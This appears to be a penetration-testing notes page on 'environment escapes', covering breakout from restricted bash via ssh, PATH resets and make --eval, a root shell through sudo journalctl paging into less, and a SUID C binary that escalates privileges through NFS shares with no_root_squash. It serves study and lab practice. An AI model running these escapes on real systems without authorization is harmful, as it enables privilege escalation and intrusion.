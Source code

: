 ```yaml
---
icon: arrow-up-left-from-circle
---
```


# Environment Escapes

{% hint style="info" %}
### <mark style="color:purple;">Escape</mark> <mark style="color:orange;">`rbash`</mark>

* <mark style="color:purple;">It's possible to do it directly connecting with</mark> <mark style="color:orange;">**`ssh`**</mark><mark style="color:purple;">:</mark>

```sh
ssh -i priv_key drno@10.10.10.124 -t bash
```

* <mark style="color:purple;">Or directly changing the</mark> <mark style="color:orange;">**`PATH`**</mark><mark style="color:purple;">**:**</mark>

```sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

***

* <mark style="color:purple;">Is also possible by using</mark> <mark style="color:orange;">**`make`**</mark><mark style="color:purple;">. First sets a variable</mark> <mark style="color:orange;">**`COMMAND`**</mark> <mark style="color:purple;">with the value</mark> <mark style="color:orange;">**`/bin/bash`**</mark><mark style="color:purple;">**:**</mark>

```sh
 COMMAND='/bin/bash'
```

* <mark style="color:purple;">Then, execute</mark> <mark style="color:orange;">**`make`**</mark> <mark style="color:purple;">in silent mode (</mark><mark style="color:orange;">**`-s`**</mark><mark style="color:purple;">) and evaluates the string</mark> <mark style="color:orange;">**`x:`**</mark> <mark style="color:purple;">containing the shell:</mark>

```sh
make -s --eval=$'x:\n\t-'"$COMMAND"
```

* <mark style="color:purple;">Finish it up by fixing the</mark> <mark style="color:orange;">**`PATH`**</mark><mark style="color:purple;">**:**</mark>

```sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`sudo journalctl`</mark> <mark style="color:purple;">via</mark> <mark style="color:orange;">`less`</mark>&#x20;

* <mark style="color:orange;">**`journalctrl`**</mark> <mark style="color:purple;">will output to stdout if it can fit onto the current page, but into</mark> <mark style="color:orange;">**`less`**</mark> <mark style="color:purple;">if it can’t.</mark>
* <mark style="color:purple;">When invoked with</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">is possible to have code execution as</mark> <mark style="color:orange;">**`root`**</mark> <mark style="color:purple;">just by pressing</mark> <mark style="color:orange;">**`!`**</mark> <mark style="color:purple;">in the</mark> <mark style="color:orange;">**`less`**</mark> <mark style="color:purple;">environment.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Escaping via</mark> <mark style="color:orange;">`NFS UID/GID`</mark> <mark style="color:purple;">Manipulation</mark>

<mark style="color:red;">**`Prerequisites`**</mark><mark style="color:purple;">:</mark>

1. <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">server must allow arbitrary</mark> <mark style="color:orange;">**`UID/GID`**</mark> <mark style="color:purple;">mappings (</mark><mark style="color:orange;">**`no_root_squash`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`no_all_squash`**</mark><mark style="color:purple;">, or similar).</mark>
2. <mark style="color:purple;">Access to a writable directory on the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share.</mark>
3. <mark style="color:purple;">Ability to execute compiled binaries on the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share.</mark>&#x20;

<mark style="color:red;">**`Exploit`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    setreuid(1000, 1000);
    setregid(1000, 1000);
    system("/bin/bash");
    return 0;
}
```
{% endcode %}

* <mark style="color:purple;">Compile the exploit:</mark>

```sh
gcc -static shell.c -o shell
```

* <mark style="color:purple;">Now just copy the binary to the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share with</mark>  <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`SGID`**</mark> <mark style="color:purple;">permissions</mark><mark style="color:purple;">**:**</mark>

```sh
chmod ug+s /mnt/shell
```

* <mark style="color:purple;">Finally just execute it to become the user with</mark> <mark style="color:orange;">**`1000`**</mark> <mark style="color:purple;">permissions:</mark>

{% code title="Example" %}
```
/var/nfsshare/shell
```
{% endcode %}

* <mark style="color:purple;">This same technique could be used to escalate privilege to root by using</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`SGID`**</mark> <mark style="color:purple;">of 0 if the</mark> <mark style="color:orange;">**`NFS`**</mark> <mark style="color:purple;">share is configured with the</mark> <mark style="color:orange;">**`no_root_squash`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`no_all_squash`**</mark> <mark style="color:purple;">options.</mark>
{% endhint %}

